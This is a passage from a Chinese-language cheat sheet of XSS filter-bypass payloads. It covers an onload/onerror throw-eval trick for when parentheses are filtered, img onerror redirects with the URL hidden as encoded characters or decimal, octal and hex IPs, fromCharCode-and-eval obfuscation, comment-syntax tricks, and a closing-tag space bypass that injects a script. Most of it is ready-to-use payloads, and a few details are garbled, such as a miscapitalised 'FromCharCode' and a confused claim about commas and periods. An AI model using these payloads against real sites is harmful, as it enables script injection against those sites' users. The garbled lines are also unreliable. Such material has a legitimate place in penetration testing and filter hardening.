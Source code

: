 ```js
过滤括号
当括号被过滤的时候可以使用throw来绕过
<svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
```

```js
过滤url地址
使用url编码
<img src="x" onerror=document.location=`http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/`>

使用IP
1.十进制IP
<img src="x" onerror=document.location=`http://2130706433/`>

2.八进制IP
<img src="x" onerror=document.location=`http://0177.0.0.01/`>

3.hex
<img src="x" onerror=document.location=`http://0x7f.0x0.0x0.0x1/`>

4.html标签中用//可以代替http://
<img src="x" onerror=document.location=`//www.baidu.com`>

5.使用\\
但是要注意在windows下\本身就有特殊用途,是一个path 的写法,所以\\在Windows下是file协议,在linux下才会是当前域的协议

6.使用中文逗号代替英文逗号
如果你在你在域名中输入中文句号浏览器会自动转化成英文的逗号
<img src="x" onerror="document.location=`http://www.baidu.com`">//会自动跳转到百度
```

```js
fromCharCode方法绕过
String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)
eval(FromCharCode(97,108,101,114,116,40,39,120,115,115,39,41))
```

**javascript 伪协议绕过**

无法闭合双引号的情况下,就无法使用 onclick 等事件,只能伪协议绕过,或者调用外部 js
```js
注释符
// 单行注释
<!-- --!> 注释多行内容
<!-- --> 注释多行内容
<-- --> 注释多行内容
<-- --!> 注释多行内容
--> 单行注释后面内容
/* */ 多行注释
有时还可以利用浏览器的容错性,不需要注释
```

```js
闭合标签空格绕过
</style ><script>alert(1)</script>
```
